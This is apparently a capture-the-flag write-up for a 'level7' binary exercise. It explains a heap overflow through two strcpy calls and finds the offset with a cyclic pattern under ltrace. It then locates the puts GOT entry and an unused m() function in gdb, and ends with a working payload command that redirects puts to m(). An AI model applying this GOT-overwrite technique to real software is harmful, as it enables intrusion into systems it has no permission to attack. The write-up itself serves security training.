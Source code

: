 The executable in this level seems to take 2 arguments, argv[1] and argv[2].
as it uses 4 malloc and 2 strcpy, we can assume that it will copy the 2 arguments in 2 different buffers.
all malloc are 8 bytes

there is also a m() function that isn't used anywhere, but it seems to be a function that will print the content of the buffer.

lets find the offset eip of the first strcpy:
using ltrace this time because even if we have a segfault, we can see the offset of the segfault

./ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

__libc_start_main(0x8048521, 2, 0xbffff784, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                    = 0x0804a008
malloc(8)                                                    = 0x0804a018
malloc(8)                                                    = 0x0804a028
malloc(8)                                                    = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)    = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>

0x37614136 = offset eip 20

now we want the PUT GOT address, we can use gdb info functions to find the address of the PUT GOT
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928

and the m address:
0x080484f4 m

now let's insert the puts in the first argument and the m function in the second argument:
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
